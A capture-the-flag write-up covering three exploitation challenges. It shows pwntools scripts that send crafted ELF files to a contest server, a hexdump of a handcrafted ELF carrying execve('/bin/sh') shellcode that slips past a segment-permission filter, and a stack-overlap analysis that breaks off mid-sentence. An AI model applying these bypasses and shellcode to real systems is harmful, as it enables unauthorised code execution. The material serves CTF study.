 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  print_banner();
  pthread_create(&userinfo_thread, 0LL, userinfo, 0LL);
  pthread_create(&auth_thread, 0LL, auth, 0LL);
  pthread_join(auth_thread, 0LL);
  return 0;
}
```

It use two threads.

```C
void *__fastcall auth(void *a1)
{
  char s1[256]; // [rsp+10h] [rbp-210h] BYREF
  char buf[264]; // [rsp+110h] [rbp-110h] BYREF
  int v4; // [rsp+218h] [rbp-8h]
  int fd; // [rsp+21Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  if ( fd < 0 )
  {
    puts("Error initializing authentication. Please contact support if on remote.");
    exit(1);
  }
  v4 = read(fd, buf, 0x100uLL);
  buf[v4 - 1] = 0;
  close(fd);
  pthread_join(userinfo_thread, 0LL);
  printf("\x1B[1;36m[SYSTEM] Enter security token: \x1B[0m");
  readline(s1, 0x100uLL);
  if ( !strcmp(s1, buf) )
  {
    puts("\x1B[1;32m[ACCESS GRANTED] Welcome to the system\x1B[0m");
    system("/bin/sh");
  }
  else
  {
    puts("\x1B[1;31m[ACCESS DENIED] Invalid security token\x1B[0m");
    puts("\x1B[1;31m[SYSTEM] Session terminated\x1B[0m");
  }
  return 0LL;
}
```

`auth` read `flag.txt` content and write in stack. Then `userinfo_thread` operate mainly.

```C
void *__fastcall userinfo(void *a1)
{
  void *v1; // rsp
  void *v2; // rsp
  _QWORD v4[2]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h] BYREF
  char *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  v4[1] = a1;
  puts("\x1B[1;36m[AUTH] User identification required\x1B[0m");
  printf("First Name Length: ");
  __isoc99_scanf("%ld%*c", &v6);
  printf("Surname Length: ");
  __isoc99_scanf("%ld%*c", &v5);
  if ( v6 > 0x100000000LL || v5 > 0x100000000LL )
  {
    puts("Too long for our systems.");
    exit(1);
  }
  v1 = alloca(16 * ((v6 + 23) / 0x10));
  v8 = (char *)v4;
  v2 = alloca(16 * ((v5 + 23) / 0x10));
  v7 = (char *)v4;
  printf("First Name: ");
  readline(v8, v6);
  printf("Surname: ");
  readline(v7, v5);
  printf("Authenticating Employee %s %s\n", v8, v7);
  return 0LL;
}
```

`alloca` function is like `malloc`, but it use stack space. And don't you think that the name length limit of 0x100000000 is too long? If we input big number, It allocates the stack where `flag.txt` is stored. So we can modulate the value of that stack position. After `userinfo` end, it get user input and compare with the value of that stack position. So, 